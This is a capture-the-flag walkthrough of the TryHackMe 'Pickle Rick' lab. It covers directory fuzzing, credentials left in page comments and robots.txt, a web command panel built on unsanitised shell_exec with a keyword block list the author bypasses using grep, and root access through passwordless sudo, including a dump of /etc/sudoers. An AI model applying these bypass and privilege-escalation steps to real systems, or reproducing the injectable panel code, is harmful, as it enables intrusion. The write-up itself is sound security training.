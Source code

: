 # Pickle Rick

### [Reconnaisance]

- Firstly, i use ffuf to fuzz the ip that was given when we start machine

```
**┌──(kali㉿kali)-[~/wordlists]
└─$ ffuf -u http://10.10.231.188/FUZZ -w common.txt            
...........
.hta                    [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 237ms]
.htpasswd               [Status: 403, Size: 297, Words: 22, Lines: 12, Duration: 237ms]
.htaccess               [Status: 403, Size: 297, Words: 22, Lines: 12, Duration: 256ms]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 240ms]
index.html              [Status: 200, Size: 1062, Words: 148, Lines: 38, Duration: 241ms]
login.php               [Status: 200, Size: 882, Words: 89, Lines: 26, Duration: 227ms]
robots.txt              [Status: 200, Size: 17, Words: 1, Lines: 2, Duration: 231ms]
server-status           [Status: 403, Size: 301, Words: 22, Lines: 12, Duration: 244ms]
:: Progress: [4687/4687] :: Job [1/1] :: 171 req/sec :: Duration: [0:00:28] :: Errors: 0 ::**
                                                                                                    
```

 ⇒ We can see that there are 2 interesting paths which are login.php and robots.txt

### [Exploit]

- On the default page, we can see the username

```
<!--
Note to self, remember username!
Username: R1ckRul3s
-->
```

- Access robots.txt, we can see the weird string: *Wubbalubbadubdub*
- Now move login.php, i think that the weird string is password and it is true
- After logining successfully, we can see the command panel.

+) Use ‘ls’ to see more clearly

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

+) There are some file text which can be the ingredients. However, when i try to cat the file, it doesn’t work.

![Screenshot 2024-03-17 105321](https://github.com/vdh1612/try_hack_me_ctf/assets/125654739/b7ff8a3e-9d1d-4b26-98e6-ccd77db2723b)


 +)  pwd show that we are in **/var/www/html** and whoami shows that we are user **www-data**

[?] How can we see the data in the file ?

- Remmember that we are in /var/www/html and robots.txt is displayed for us when we access the file on url, so we can do the same way with other 2 files.txt
- http://10.10.231.188/Sup3rS3cretPickl3Ingred.txt shows  **mr. meeseek hair** which is the first ingredient

=> Question 1:  **mr. meeseek hair**

- http://10.10.231.188/clue.txt hints that **Look around the file system for the other ingredient.**

[Hint] The command `grep` can be used in this case to work the same as `cat` command to get the content of the file

- We get the content of file portal.php to know how the backend works

`grep . portal.php`

```

........
    <?php
      function contains($str, array $arr)
      {
          foreach($arr as $a) {
              if (stripos($str,$a) !== false) return true;
          }
          return false;
      }
      // Can't use any command in the array
      $cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
      if(isset($_POST["command"])) {
        if(contains($_POST["command"], $cmds)) {
          echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p><img src='assets/fail.gif'>";
        } else {
          $output = shell_exec($_POST["command"]);
          echo "</br><pre>$output</pre>";
        }
      }
    ?>
    //[?] base64 encoded. However, i decode so many time and get the str 'rabbit hole'
    <!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

- Next, we try to list the file in /home to check if there is any user

ls /home

```
rick => this user sound sus right 
ubuntu
```

ls /home/rick

```
second ingredients => the second flag
```

grep . /home/rick/"second ingredients”

```
1 jerry tear
```

[?] Why do we need “” here ? Because it works like this

```
┌──(kali㉿kali)-[~/wordlists]
└─$ touch test file
                                                                                                                                                               
┌──(kali㉿kali)-[~/wordlists]
└─$ ls
common.txt  file  parameters.txt  subdomains.txt  test
                                                                                                                                                               
┌──(kali㉿kali)-[~/wordlists]
└─$ touch "test file"
                                                                                                                                                               
┌──(kali㉿kali)-[~/wordlists]
└─$ ls
 common.txt   file   parameters.txt   subdomains.txt   test  'test file'
                                                                                                                                                                                                                                                                                                       
┌──(kali㉿kali)-[~/wordlists]
└─$ nano 'test file'
                                                                                                                                                               
┌──(kali㉿kali)-[~/wordlists]
└─$ cat 'test file'
asdasd
```

⇒ Questtion 2: **1 jerry tear**

- Next, i try list the file and dir in “/”

ls / 

```
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
```

- /root looks suspicous right ? However, when i try to cd and list all dir in the file, it doesn’t show anything.

[Explaination]

In Linux systems, the **`/root`** directory is the home directory of the root user, the system administrator. By default, only the root user or users with sudo privileges can access this directory.

sudo ls /root

```
3rd.txt
snap
```

sudo grep . /root/3rd.txt

```
3rd ingredients: fleeb juice
=> Question 3: fleeb juice
```

[?] When we sudo to get the full privileges, we need the password of superuser because we are user www-data right !

```
sudo grep . /etc/sudoers
......
root	ALL=(ALL:ALL) ALL
//[!] www-data can execute all command without pw
www-data                ALL=(ALL) NOPASSWD: ALL 
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL
# See sudoers(5) for more information on "#include" directives:
#includedir /etc/sudoers.d
```
